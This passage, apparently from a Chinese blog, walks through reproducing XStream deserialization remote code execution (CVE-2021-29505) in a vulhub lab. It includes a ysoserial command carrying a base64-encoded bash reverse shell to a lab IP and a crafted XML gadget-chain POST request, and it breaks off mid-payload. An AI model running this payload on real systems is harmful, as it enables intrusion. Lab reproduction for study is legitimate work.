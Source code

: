 ```
  </javax.naming.ldap.Rdn_-RdnEntry>
  <javax.naming.ldap.Rdn_-RdnEntry>
    <type>ysomap</type>
    <value class='com.sun.org.apache.xpath.internal.objects.XString'>
      <m__obj class='string'>test</m__obj>
    </value>
  </javax.naming.ldap.Rdn_-RdnEntry>
</sorted-set>
```  
### vulhub复现  
  
黑盒看Content-Type有无xml,然后看格式是不是xml的格式数据,前提是java应用  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT3pJteFFlGYIIG0UpnmO8tuMclp9jdrbDWiavxIEA02bs7UVYIcYbrkUicJdDhmwDtYHmDrS8F8icfrg/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT3pJteFFlGYIIG0UpnmO8tuDlOGQxzAIgHbbO6VUJPNWIkwUSUldl8QFpVXVib3GxK5SVSHBSXVRbQ/640?wx_fmt=png&from=appmsg "")  
  
这里抓包然后丢一个xml格式,发送请求发现抱错  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT3pJteFFlGYIIG0UpnmO8tulSRTmPYbeUmMLz8jfLwKXmxe9ZQsiauttmqKvXQO09vX46uUzibhcPsQ/640?wx_fmt=png&from=appmsg "")  
  
然后使用官方的poc改一下jndi注入命令和host即可  
### 远程代码执行 （CVE-2021-29505）  
  
XStream <= 1.4.16  
  
对数据包中的xml数据进行处理,可能用xstream处理  
  
这里官方判别就是xml格式,接受文件类型中有xml,body也有,返回也有,xml格式可以猜测是xstream处理的  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT3pJteFFlGYIIG0UpnmO8tuYvsarcicwHucTZPDHU0BeKAUy0W70vsjPianI0KYwM4q6z1v0uFylibvA/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT3pJteFFlGYIIG0UpnmO8tu2zdVMdbRicv7ib6MIHabTwe3iabhUlrdVD0csxNJNt0PvYMSElherjEag/640?wx_fmt=png&from=appmsg "")  
  
-生成反弹Shell的反序列化JNDI注入  
  
java -cp ysoserial-0.0.8-SNAPSHOT-all.jar ysoserial.exploit.JRMPListener 1089 CommonsCollections6 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjY2LjE1Mi82NjY2IDA+JjE=}|{base64,-d}|{bash,-i}"  
  
-构造反序列化JNDI注入Payload提交  
```
POST / HTTP/1.1
Host: 192.168.66.152:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Connection: close
Content-Type: application/xml
Content-Length: 3169

<java.util.PriorityQueue serialization='custom'>
    <unserializable-parents/>
    <java.util.PriorityQueue>
        <default>
            <size>2</size>
        </default>
        <int>3</int>
        <javax.naming.ldap.Rdn_-RdnEntry>
            <type>12345</type>
            <value class='com.sun.org.apache.xpath.internal.objects.XString'>
                <m__obj class='string'>com.sun.xml.internal.ws.api.message.Packet@2002fc1d Content</m__obj>
            </value>
```